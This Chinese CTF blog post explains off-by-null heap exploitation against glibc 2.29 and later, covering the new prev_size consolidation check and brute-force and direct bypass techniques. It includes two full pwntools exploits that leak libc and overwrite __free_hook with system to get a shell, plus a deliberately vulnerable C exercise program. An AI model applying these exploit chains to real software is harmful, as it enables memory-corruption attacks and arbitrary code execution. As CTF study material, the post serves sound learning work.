








个人理解off by null 是 off by one的一种特例, off by null指我们可以控制堆块向下一个堆块溢出一个字节的数据，而该数据只能为’\x00’的情况。如果像常规off by one 是溢出任意一个字节，那么就可以修改下一个堆块的大小，而off by null则不能，它仅仅只可以将下一个堆块的inuse位置零.
高版本libc改动影响 我们在2.29前 ,我们只需要按照下面来布局堆块:

然后按照下面步骤:
先释放chunk A.
通过chunk B,利用off by one漏洞在 修改chunk C presize 值为 chunk A size +chunk B size的同时,将chunk C的prev_inuse值覆盖为’\x00’.
再释放chunk C。

即可让chunk A B C 合并为一块大的chunk。
但是在2.29后的libc在两个free chunk 进行合并前多一次对prevsize的值检查对应的源代码如下:
1 2 3 4 5 6 7 8 9 if (!prev_inuse(p)) { prevsize = prev_size (p); size += prevsize; p = chunk_at_offset(p, -((long ) prevsize)); if (__glibc_unlikely (chunksize(p) != prevsize)) malloc_printerr ("corrupted size vs. prev_size while consolidating" ); unlink_chunk (av, p); }
导致我们如果按照上面所说的方法在if (__glibc_unlikely (chunksize(p) != prevsize))时,无法成功通过.因为此时prevsize为的A size+ B size但p的size仅仅为A size.
爆破法 思路 爆破法我借鉴的是nopnoping爷爷的思路：https://nopnoping.github.io/off-by-one%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/
爆破法的思路比较简单:
1.分配一个chunk ,将使下一块chunk地址的后三位抬高为0x000,并有机会出现后四位都是0x0000的情况.
2.分配一个范围大于tcache的最大值并且在largebin范围内的chunk A.
3.分配一个隔离chunk k.

4.释放chunk A,在chunk A分配 chunk B,chunk C,chunkD,chunk F ,chunk E.要求chunk C 和chunk D最好相邻且大小相同,同时让chunk B和 chunk D前14位相同,要求chunk F和chunk E 最好相邻.
5.释放chunk C 和chunk D 让其合并为smallbins,
6.分配chunk G 大小是让chunk G分配后,原chunk A 巧好剩下巧好空间H为chunk C +chunk D的大小.
7.分配一个大的chunk,让原chunk A 剩下空间H加入smallbins.
8.重新分配chunk C,chunk D.让chunk C bk 中addr为chunk D.同时修改其bk为 chunk B addr.
9.修改chunk B的bk为fake size，fd修改为chunk C addr .
10.先释放D再释放B，在分配回chunk B ,让原来chunk B fd 位置的值为chunk B addr
+0x10.
11.通过chunk F 修改 chunk E 的prevsize值为fake size，并覆盖E的prev_inuse值为0.

12.释放chunk E， B、C、D、F、E合并。
例题:qwb_2021_baby_diary 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 171 172 from pwn import *import libcfindelf=ELF('./baby_diary' ) context.arch="amd64" def add (size, content='/bin/sh\x00' ) : sh.recvuntil(">> " ) sh.sendline("1" ) sh.recvuntil("size: " ) sh.sendline(str(size)) sh.recvuntil("content: " ) sh.sendline(content) def show (idx) : sh.recvuntil(">> " ) sh.sendline("2" ) sh.recvuntil("index: " ) sh.sendline(str(idx)) def free (idx) : sh.recvuntil(">> " ) sh.sendline("3" ) sh.recvuntil("index: " ) sh.sendline(str(idx)) def pwn2 () : for i in range(7 ): add(0x30 ) add(0x4ba0 ) add(0x600 ) add(0x20 ) free(8 ) add(0x37 ) add(0x37 ) add(0x37 ) add(0x47 ) for i in range(7 ): free(i) free(11 ) free(10 ) add(0x20 ) add(0x1000 ,'l chunk' ) add(0x440 ,p8(0 )) add(0x1000 ,'l chunk' ) for i in range(7 ): add(0x30 ) add(0x37 ,p64(0 )+p8(0x10 )) add(0x37 ,'5555555' ) free(16 ) free(8 ) add(0x37 ,p64(0x190 )+p64(0x101 )+p8(0x40 )) add(0x37 ,p64(0 )*6 +p8(0 )*6 ) free(4 ) free(5 ) free(6 ) free(10 ) free(11 ) free(13 ) free(14 ) free(16 ) free(8 ) for i in range(7 ): add(0x30 ) add(0x37 ,p8(0x10 )) add(0x37 ,p8(0x10 )) free(12 ) add(0x47 ,p64(0 )*8 +p8(0 )*7 ) free(12 ) add(0x47 ,p64(0 )*7 +p64(0x10 )) for i in range(7 ): add(0x20 ) free(17 ) free(18 ) free(19 ) free(20 ) free(21 ) free(22 ) free(23 ) free(0 ) add(0x1000 ) gdb.attach(sh) add(0x57 ,'1' *7 ) free(14 ) add(0x37 ,'11122223' +p32(0x61 )+p8(0 )*4 +p8(1 )*7 ) free(14 ) add(0x37 ,'11122223' +p32(0x61 )+p8(0 )*4 +p8(1 )*6 ) free(14 ) add(0x37 ,'11122223' +p32(0x61 )+p8(0 )*4 +p8(1 )*5 ) free(14 ) add(0x37 ,'11122223' +p32(0x61 )+p8(0 )*4 +p8(1 )*4 ) free(14 ) add(0x37 ,'11122223' +p32(0x61 )+p8(0 )*4 +p8(1 )*3 ) free(14 ) add(0x37 ,'11122223' +p32(0x61 )+p8(0 )*4 +p8(1 )*2 ) free(14 ) add(0x37 ,'11122223' +p32(0x61 )+p8(0 )*4 +p8(1 )*1 ) free(14 ) add(0x37 ,'11122223' +p32(0x61 )+p8(0 )*4 ) free(14 ) add(0x37 ,'11122223' +p32(0x61 )+p8(0 )*3 ) show(17 ) addr=u64(sh.recvuntil('\x7f' )[-6 :].ljust(8 ,'\x00' ))-391 log.info('main_arena:' +hex(addr)) malloc=addr-0x10 log.info('malloc_hook:' +hex(malloc)) x=libcfind.finder('__malloc_hook' ,malloc,num=5 ) """ multi libc results: [-] 0: libc6_2.15-0ubuntu10.23_amd64(source from:ubuntu-eglibc) [-] 1: libc6-amd64_2.30-0ubuntu2.2_i386(source from:ubuntu-old-glibc) [-] 2: libc6_2.30-0ubuntu2_amd64(source from:ubuntu-old-glibc) [-] 3: libc6-amd64_2.31-0ubuntu9.2_i386(source from:ubuntu-glibc) [-] 4: libc6_2.31-0ubuntu9_amd64(source from:ubuntu-glibc) [-] 5: local-ad9f264101ca975f82b40fffd5aa6f763cfd1ed9(source from:/usr/lib/x86_64-linux-gnu/libc-2.31.so) [-] 6: libc6-amd64_2.30-0ubuntu2_i386(source from:ubuntu-old-glibc) [-] 7: libc6-amd64_2.31-0ubuntu9_i386(source from:ubuntu-glibc) [-] 8: libc6_2.31-0ubuntu9.2_amd64(source from:ubuntu-glibc) [-] 9: libc6_2.30-0ubuntu2.2_amd64(source from:ubuntu-old-glibc) [!] you can choose it by hand """ add(0x57 ,'22222' ) free(18 ) free(17 ) free(14 ) add(0x37 ,'11122223' +p32(0x61 )+p8(0 )*4 +p64(x.dump('__free_hook' ))) add(0x57 ) add(0x57 ,p64(x.dump('system' ))) free(0 ) if __name__ == "__main__" : while True : sh=process("./baby_diary" ) try : pwn2() gdb.attach(sh) sh.interactive() except : sh.close()
直接法 直接法我是在wjh爷爷的博客上了解的http://blog.wjhwjhn.com/archives/193/
这个方法有关弊端，如果题目\n不能替换‘\x00’就需要题目有show功能，否则还是得爆。
思路 1.创造4个大于tcache的最大值并且在largebin范围内的chunk A、B、C、D。让B、C相邻外，其他chunk 间都有隔离块隔离同时chunk C的地址为末位为0x00。
2.按照顺序释放A、C、D，形成largebins 链表。

3.释放chunk B，让chunk B和chunk C产生合并。

4.创建大小比原来chunk B多0x20size 的new chunk B。让old chunk C的 old fd 与old bk保留在new chunk 底部。创建大小比原来chunk C少0x20size 的new chunk C。
5.将chunk A和chunk B复原。

6.按照顺序释放 A、new C、D，形成largebins 链表。
7.修改chunk A bf 值为old chunk C addr。修改chunk D fd 值为old chunk C addr。
8.通过new chunk B修改 old chunk C size 为fake size。通过new chunk C 修改隔离chunk的prevsize值为fake size，

9.free 隔离chunk即出现合并。
例题 没有找到合适的，于是选来自nopnoping爷爷博客的例题，源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 #include <stdio.h> struct chunk { long *point ; unsigned int size ; }chunks[10 ]; void add () unsigned int index=0 ; unsigned int size =0 ; puts ("Index?" ); scanf ("%d" ,&index); if (index>=10 ) { puts ("wrong index!" ); exit (0 ); } puts ("Size?" ); scanf ("%d" ,&size ); chunks[index].point =malloc (size ); if (!chunks[index].point ) { puts ("malloc error!" ); exit (0 ); } chunks[index].size =size ; } void show () unsigned int index=0 ; puts ("Index?" ); scanf ("%d" ,&index); if (index>=10 ) { puts ("wrong index!" ); exit (0 ); } if (!chunks[index].point ) { puts ("It's blank!" ); exit (0 ); } puts (chunks[index].point ); } void edit () unsigned int index; puts ("Index?" ); scanf ("%d" ,&index); if (index>=10 ) { puts ("wrong index!" ); exit (0 ); } if (!chunks[index].point ) { puts ("It's blank!" ); exit (0 ); } char *p=chunks[index].point ; puts ("content:" ); p[read (0 ,chunks[index].point ,chunks[index].size )]=0 ; } void delete () unsigned int index; puts ("Index?" ); scanf ("%d" ,&index); if (index>=10 ) { puts ("wrong index!" ); exit (0 ); } if (!chunks[index].point ) { puts ("It's blank!" ); exit (0 ); } free (chunks[index].point ); chunks[index].point =0 ; chunks[index].size =0 ; } void menu () puts ("1) add a chunk" ); puts ("2) show content" ); puts ("3) edit a chunk" ); puts ("4) delete a chunk" ); putchar ('>' ); } void main () unsigned int choice; puts ("Welcome to my off by null vuln vulnerability exercise." ); puts ("wish you will play happy!" ); while (1 ) { menu(); scanf ("%d" ,&choice); switch (choice) { case 1 : add(); break ; case 2 : show(); break ; case 3 : edit(); break ; case 4 : delete (); break ; default : exit (0 ); } } }
exp：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 from pwn import *import libcfinde=ELF('./text' ) def add (num,size) : p.sendline('1' ) p.recvuntil('Index?' ) p.sendline(str(num)) p.recvuntil('Size?' ) p.sendline(str(size)) def show (num) : p.sendline('2' ) p.recvuntil('Index?' ) p.sendline(str(num)) def edit (num,text='' ) : p.sendline('3' ) p.recvuntil('Index?' ) p.sendline(str(num)) p.recvuntil("content:" ) p.send(text) def free (num) : p.sendline('4' ) p.recvuntil('Index?\n' ) p.sendline(str(num)) def pwn () : add(0 ,0x450 ) add(1 ,0x80 ) add(2 ,0x450 ) add(3 ,0x450 ) add(4 ,0x4f0 ) add(5 ,0x450 ) add(6 ,0x80 ) free(5 ) free(3 ) free(0 ) free(2 ) add(2 ,0x470 ) add(3 ,0x430 ) add(5 ,0x450 ) add(0 ,0x450 ) free(0 ) free(3 ) free(5 ) add(0 ,0x450 ) add(3 ,0x430 ) add(5 ,0x450 ) edit(0 ,p8(0 )*7 +'\n' ) free(5 ) free(3 ) add(6 ,0x500 ) add(5 ,0x450 ) show(5 ) p.recvline() fd=(u64(p.recvline()[:-1 ].ljust(8 ,'\x00' ))-0x20 ) print(hex(fd)) add(3 ,0x438 ) edit(5 ,p64(fd)) edit(3 ,p8(0 )*0x430 +p64(0x460 )) free(4 ) add(0 ,0x100 ) print(hex(fd)) add(1 ,0x100 ) show(1 ) main_arena=(u64(p.recvuntil('\x7f' )[-6 :].ljust(8 ,'\x00' ))-96 ) print(hex(main_arena)) malloc_hook=main_arena-0x10 x=libcfind.finder('__malloc_hook' ,malloc_hook,num=5 ) """ [-] 0: libc6_2.15-0ubuntu10.23_amd64(source from:ubuntu-eglibc) [-] 1: libc6-amd64_2.30-0ubuntu2.2_i386(source from:ubuntu-old-glibc) [-] 2: libc6_2.30-0ubuntu2_amd64(source from:ubuntu-old-glibc) [-] 3: libc6-amd64_2.31-0ubuntu9.2_i386(source from:ubuntu-glibc) [-] 4: libc6_2.31-0ubuntu9_amd64(source from:ubuntu-glibc) [-] 5: local-ad9f264101ca975f82b40fffd5aa6f763cfd1ed9(source from:/usr/lib/x86_64-linux-gnu/libc-2.31.so) [-] 6: libc6-amd64_2.30-0ubuntu2_i386(source from:ubuntu-old-glibc) [-] 7: libc6-amd64_2.31-0ubuntu9_i386(source from:ubuntu-glibc) [-] 8: libc6_2.31-0ubuntu9.2_amd64(source from:ubuntu-glibc) [-] 9: libc6_2.30-0ubuntu2.2_amd64(source from:ubuntu-old-glibc) """ free(1 ) free(0 ) edit(2 ,0x420 *p8(0 )+p64(0 )*7 +p64(0x111 )+p64(x.dump('__free_hook' ))) print('ok1' ) add(0 ,0x100 ) edit(0 ,'/bin/sh\x00\n' ) print('ok1' ) add(1 ,0x100 ) edit(1 ,p64(x.dump('system' ))) free(0 ) def leak () : addr=u64(p.recvuntil('\x7f' )[-6 :].ljust(8 ,'\x00' ))-96 log.info('main_arena:' +hex(addr)) malloc_hook=addr-0x10 log.info('malloc_hook:' +hex(malloc_hook)) x=libcfind.finder('__malloc_hook' ,malloc_hook,num=5 ) log.info('base:' +hex(x.libcbase)) """ multi libc results: [-] 0: libc6_2.15-0ubuntu10.23_amd64(source from:ubuntu-eglibc) [-] 1: libc6-amd64_2.30-0ubuntu2.2_i386(source from:ubuntu-old-glibc) [-] 2: libc6_2.30-0ubuntu2_amd64(source from:ubuntu-old-glibc) [-] 3: libc6-amd64_2.31-0ubuntu9.2_i386(source from:ubuntu-glibc) [-] 4: libc6_2.31-0ubuntu9_amd64(source from:ubuntu-glibc) [-] 5: local-ad9f264101ca975f82b40fffd5aa6f763cfd1ed9(source from:/usr/lib/x86_64-linux-gnu/libc-2.31.so) [-] 6: libc6-amd64_2.30-0ubuntu2_i386(source from:ubuntu-old-glibc) [-] 7: libc6-amd64_2.31-0ubuntu9_i386(source from:ubuntu-glibc) [-] 8: libc6_2.31-0ubuntu9.2_amd64(source from:ubuntu-glibc) [-] 9: libc6_2.30-0ubuntu2.2_amd64(source from:ubuntu-old-glibc) """ free(9 ) free(8 ) edit(7 ,p64(0 )+p64(0x71 )+p64(x.dump('__free_hook' ))) print('ok1' ) add(8 ,0x60 ) add(9 ,0x60 ) print('ok2' ) edit(8 ,'/bin/sh\x00' ) edit(9 ,p64(x.dump('system' ))) print('ok3' ) free(8 ) print('ok4' ) p=process('./text' ) pwn() gdb.attach(p) p.interactive()
后记 off by null 自从qwb被打懵后一直想了解这个知识，但又是毕业那些一大堆事情。同时tcl看了很多文章才看懂。感谢wjh爷爷和nopnoping爷爷的文章。
参考文献 https://nopnoping.github.io/off-by-one%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/
http://blog.wjhwjhn.com/archives/193/